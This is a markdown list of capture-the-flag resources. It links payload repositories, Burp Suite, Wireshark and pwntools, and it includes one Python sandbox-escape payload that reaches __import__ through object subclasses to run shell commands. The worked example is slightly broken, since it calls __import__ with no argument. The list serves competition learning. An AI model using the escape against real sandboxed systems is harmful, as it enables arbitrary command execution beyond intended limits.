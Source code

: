 # CTF-Things



## A list of useful things that can help you in CTFs.
---------------------------------------
## Websites

## [Beeceptor](https://beeceptor.com/){:target="_blank"}
```
A website where you can create a mock api that can act as your server and recive requests.
```

-----------------------
## Payloads

### [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)
```
A useful repository that has all kinds of payload for a lot of diffrent attacks.
```

### A Python code that can call a function from any library without using the import statment.
```
[t for t in ().__class__.__base__.__subclasses__() if t.__name__ == 'Sized'][0].__len__.__globals__['__builtins__']['__import__'](<the library name>).<the function>

example:
[t for t in ().__class__.__base__.__subclasses__() if t.__name__ == 'Sized'][0].__len__.__globals__['__builtins__']['__import__']().check_output(['ls', '-l'])

In this example we call the check_output function from the subprocess library.
This example can essentioly run any shell code on the machine using python.
```

-----------------------------
## Tools

### [Burp suite](https://portswigger.net/burp/communitydownload)
```
Everyone knows burpsuite, but for those who dont I can explain:
essentialy burp suite let you see your http traffic, act as a proxy, change http requests, and a lot more!!!
```


### [Wireshark](https://www.wireshark.org/)
```
Another classic like burp suite...
Wireshark lets you sniff the network traffic on your computer and open sniffs files.
```
-----------------------------
## Python libraries

### [Requests](https://pypi.org/project/requests/)
```
A python library that lets you send http requests on the web.
```

### [Pwn tools](https://docs.pwntools.com/en/stable/)
```
A python library that gives you a lot of tools to use in CTFs.
Tools like - netcat from a script with the pwn.remote function, analizing binary files.
```

******************
